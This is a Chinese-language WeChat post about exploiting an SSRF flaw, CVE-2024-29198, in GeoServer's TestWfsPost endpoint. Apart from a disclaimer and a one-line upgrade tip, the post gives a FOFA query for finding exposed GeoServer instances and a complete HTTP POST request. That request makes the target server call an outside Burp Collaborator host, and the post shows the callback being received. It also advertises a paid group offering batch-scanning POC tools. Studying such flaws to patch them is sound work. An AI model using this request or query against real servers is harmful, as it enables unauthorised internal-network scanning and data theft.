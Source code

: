#  GeoServer TestWFSpost 存在SSRF漏洞CVE-2024-29198 附POC  
2025-6-19更新  南风漏洞复现文库   2025-06-19 15:41  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. GeoServer简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
GeoServer是一个功能齐全,遵循OGC开放标准的开源WFS-T和WMS服务器。  
## 2.漏洞描述  
  
GeoServer是一个功能齐全,遵循OGC开放标准的开源WFS-T和WMS服务器。CVE-2024-29198 中，攻击者可构造恶意请求，利用SSRF扫描内网，获取相关敏感信息。GeoServer TestWFSpost 存在SSRF漏洞。  
  
CVE编号:CVE-2024-29198  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
GeoServer  
  
![GeoServer TestWFSpost 存在SSRF漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1NicwmTsaB857hjXWic2zWXK0fBbzvPegD3VagIdFKlISqVFbzib3FTG2w/640?wx_fmt=png&from=appmsg "null")  
  
GeoServer TestWFSpost 存在SSRF漏洞  
## 4.fofa查询语句  
  
app="GeoServer"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/geoserver/TestWfsPost  
  
漏洞数据包：  
```
POST /geoserver/TestWfsPost HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
Content-Length: 86
Content-Type: application/x-www-form-urlencoded

url=http%3A%2F%2F292945631dwdos3smercxerzh4jj9t2vpzg56tv.burpcollaborator.net&body=123
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1olbNxq8KDDGeXGymlJURlGYWH351toEfIsOcXnpcib9eMldzPZKzBibw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
dns平台收到请求  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3aDvZONOnYfauEefRbSb9r11So8jjNcbCPfzVmb9tJaanwWNgK405ibDia5RoibQMObQV7wnOr5YjTZg/640?wx_fmt=png&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1mrHTibmxO5GraIah5ia83oWLy8nMJH9ml2EysDUmHBktKn9P8G8CL1cw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1mTMlQzCQPzgJt7crtvpMibgn06QHHAz9hdlgFugaudYReE1hEXbhOYQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1Yw2FYMJiaMmR5vYuvp0p8ZWJBKgficCtC2diayuuXTxcfn1U3wrnBicmUg/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r18gwwSgsRhpAmRibhrUH3M2B8Pia6HN7FYV4sE8RgCQiar8dH3o8XTARmA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aDvZONOnYfauEefRbSb9r1icBNMZCS6EUQVyTnfiaJFNpl0bu4RVyEFoIOqibQb5Bicy9ODSsqR2hpNg/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
官方已发布安全更新，建议升级至最新版本。  
## 8.往期回顾  
  
  
   
  
  
  
